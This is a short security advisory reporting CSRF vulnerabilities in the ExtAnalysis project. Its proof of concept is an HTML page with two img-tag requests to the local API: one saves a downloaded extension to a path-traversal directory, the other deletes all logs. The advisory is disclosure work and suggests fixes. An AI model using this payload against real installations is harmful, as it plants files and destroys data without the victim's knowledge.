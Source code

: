 # Overview

The `ExtAnalysis` project is vulnerable against various CSRFs, that could lead to loss of functionalities and placement of malicious files in arbitrary directories without knowledge of the victim.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Download the git project and run the server through the `python2 extanalysis.py` command
2. Insert on a malicious host the following code

```html
<html>
  <!-- Downloads the Gmass extension in the `Desktop` folder. Fix: avoid `../`   CSRF token -->
  <img
    src="http://127.0.0.1:13337/api/?query=dlanalysis&extid=ehomdgjhgmbidokdgicgmdiedadncbgf&savedir=../../../Desktop/hacked"
  />
  <!-- Deletes all the log without knowledge of the victim. Fix: add CSRF token -->
  <img src="http://127.0.0.1:13337/api/?query=deleteAll" />
</html>
```
